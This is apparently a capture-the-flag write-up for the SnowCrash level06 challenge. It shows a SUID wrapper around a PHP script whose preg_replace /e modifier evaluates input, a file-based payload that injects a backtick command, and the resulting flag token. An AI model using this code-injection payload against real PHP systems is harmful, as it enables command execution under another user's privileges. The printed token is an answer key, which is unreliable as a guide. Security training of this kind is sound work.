 In home directory there are executable file and PHP script:
```shell
level06@SnowCrash:~$  ls -la
total 24
[...]
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```
Let's reading the script file:
```shell
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
<"/(\[x (.*)\])/e"> this regex use deprecated and vunerable regex 'e' modifier. [Read more](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)

And it will eveluate this (`.*`).

Our executable wait for an argument to use with it:

```shell
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
So we can write a file which will much the regex <"/(\[x (.*)\])/e"> and use it with our exec file (it with SUID bit)
```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
